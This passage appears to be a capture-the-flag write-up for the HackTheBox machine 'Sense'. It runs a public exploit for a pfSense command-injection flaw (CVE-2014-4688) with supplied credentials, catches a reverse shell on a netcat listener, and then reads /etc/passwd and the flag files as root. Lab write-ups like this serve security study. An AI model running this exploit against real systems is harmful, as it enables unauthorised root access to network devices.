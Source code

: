 ```bash
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''
```

## Reverse sell through CVE-2014-4688
We found an exploit tested on `FreeBSD 8.3-RELEASE-p16`  for `pfSense <= 2.1.3`, so this exploit si perfect for our case:
```bash
# Attacking terminal
❯ cd Exploits
❯ searchsploit -m php/webapps/43560.py
❯ cd ..
❯ python3 Exploits/43560.py --rhost 10.10.10.60 --lhost 10.10.14.2 --lport 3333 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
# Listenning terminal
❯ nc -nlvp 3333
Connection from 10.10.10.60:61357
sh: can't access tty; job control turned off
# whoami
root
# ifconfig | grep "10.10.10.60"
	inet 10.10.10.60 netmask 0xffffff00 broadcast 10.10.10.255
```
We obtianed root access on 10.10.10.60, but there is no `user.txt`, let's check the machine's users:
```bash
# cat /etc/passwd | grep "sh$"    
cat /etc/passwd | grep "sh$"
root:*:0:0:Charlie &:/root:/bin/sh
# ls /home
ls /home
.snap	rohit
# ls /home/rohit
ls /home/rohit
.tcshrc		user.txt
```
We found both `user.txt` and `root.txt` (on `/root`), so we pwned the machine `Sense`.
